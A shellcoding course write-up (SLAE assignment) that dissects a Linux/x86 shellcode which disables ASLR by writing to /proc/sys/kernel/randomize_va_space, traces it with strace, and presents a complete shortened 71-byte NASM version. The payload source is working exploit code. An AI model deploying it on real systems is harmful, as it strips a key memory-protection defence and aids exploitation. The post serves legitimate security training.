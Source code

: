 ```yaml
---
layout: post
title: "Linux/x86 - Disable ASLR Shellcode (71 bytes)"
date: 2017-05-07 12:00:00
share: true
comments: true
tags: shellcoding exploitation slae
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 6.1_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---

**_Note_: A modified version has been published in exploit-db:[ https://www.exploit-db.com/exploits/41969/](https://www.exploit-db.com/exploits/41969/) (calls setruid first)**  
  
In assignment 6, the requirement is polymorphing 3+ shellcodes off shellstorm.org or exploit-db.com_, _which basically means modifying the code so it doesn't look like the original yet has the same functionality. This is the first post out of three.  
  
  

## Linux/x86 - Disable ASLR Shellcode (71 bytes)

First shellcode I will dissect is a disable ASLR one by Mohammad Reza Ramezani, shellcode can be found [here](https://www.exploit-db.com/exploits/36637/).  
  
Let's compile this code and instead of debugging it, we'll use strace tool  

```console
abatchy@ubuntu:~/Desktop/workspace$ gcc 36637.c -fno-stack-protector -z execstack -o 36637.out  
abatchy@ubuntu:~/Desktop/workspace$ sudo su  
root@ubuntu:/home/abatchy/Desktop/workspace# strace ./36637.out   
execve("./36637.out", ["./36637.out"], [/* 26 vars */]) = 0  
brk(0)                                  = 0x804b000  
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)  
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fd8000  
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)  
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3  
fstat64(3, {st_mode=S_IFREG|0644, st_size=79136, ...}) = 0  
mmap2(NULL, 79136, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb7fc4000  
close(3)                                = 0  
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)  
open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3  
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0P\234\1\0004\0\0\0"..., 512) = 512  
fstat64(3, {st_mode=S_IFREG|0755, st_size=1763068, ...}) = 0  
mmap2(NULL, 1768060, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7e14000  
mmap2(0xb7fbe000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1aa000) = 0xb7fbe000  
mmap2(0xb7fc1000, 10876, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xb7fc1000  
close(3)                                = 0  
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7e13000  
set_thread_area({entry_number:-1 -> 6, base_addr:0xb7e13940, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0  
mprotect(0xb7fbe000, 8192, PROT_READ)   = 0  
mprotect(0x8049000, 4096, PROT_READ)    = 0  
mprotect(0xb7ffe000, 4096, PROT_READ)   = 0  
munmap(0xb7fc4000, 79136)               = 0  
**open("/proc/sys/kernel/randomize_va_space", O_RDWR) = 3  
write(3, "0\n", 2)                      = 2  
_exit(0)                                = ?**  
+++ exited with 0 +++  
```
**_Note_: DO NOT run code directly without investigating it first and making sure
it's totally safe (I did).  
  
So 3 calls are what matter to us:  
  
1. `open("/proc/sys/kernel/randomize_va_space", O_RDWR)`  
2. `write(3, "0\n", 2)`
3. `exit(0)`  
  
There seem to be room for improvement, so let's see if we can make this code significantly smaller.  

## 1\. `open("/proc/sys/kernel/randomize_va_space", O_RDWR)`

  
Minor refactoring:
```nasm
xor eax,eax  
jmp filename  
shellcode:  
pop ebx         ; EBX now points to '/proc/sys/kernel/randomize_va_spaceX'  
mov byte [ebx + 35],al  
push byte 5  
pop eax  
push byte 2  
pop ecx  
int 80h  
```    

We don't need `O_RDWR` permissions, but I tried making use of that with no avail.  
  

## 2\. `write(fd, "0\n", 2)`

  
1\. `mov ebx, eax`: Since we don't care about EAX, `xchg eax,ebx` is one byte less.  
  
2\. `push byte 2 - pop edx`: ECX already contains 2, let's exchange them instead.  
  
3\. `jmp-call-pop`: Got rid of it and replaced it with a push '0'.  
  
```nasm
xchg eax, ebx   ; One byte less than mov ebx, eax  
push byte 4  
pop eax  
xchg ecx, edx   ; ECX already contains 2  
push byte 0x30  
mov ecx, esp    ; ECX now points to "0"  
int 80h         ; EAX will now contains 1  
```

## 3\. `exit(0)`

Is it a big deal exiting with non-zero status? Not really, so let's not nullify EBX (it currently contains the file descriptor).  
  
Can we do better? Yes! `write()` returns number of bytes written, which should be 1 (we only wrote "0"), so we can exit directly!  

```nasm
int 80h         ; Yep, that's it  
```

## Final shellcode

```nasm
section .text  
global _start  
  
_start:  
  
;  
; open("/proc/sys/kernel/randomize_va_spaceX", O_RDWR)  
;  
xor eax,eax  
jmp aslr_file  
shellcode:  
pop ebx         ; EBX now points to '/proc/sys/kernel/randomize_va_spaceX'  
mov byte [ebx + 35],al  
push byte 5  
pop eax  
push byte 2  
pop ecx  
int 80h  
  
;  
; write(fd, '0', 1)  
;  
xchg eax, ebx   ; One byte less than mov ebx, eax  
push byte 4  
pop eax  
xchg ecx, edx   ; ECX already contains 2  
push byte 0x30  
mov ecx, esp    ; ECX now points to "0"  
int 80h         ; EAX will now contains 1  
  
;  
; exit(0)  
;  
int 80h         ; Yep, that's it  
  
aslr_file:  
call shellcode  ; Skips the filename and avoids using JMP  
db '/proc/sys/kernel/randomize_va_spaceX'  
``` 

Shellcode size has been cut down to 71 bytes (13 bytes less than original code).  
  
\- Abatchy

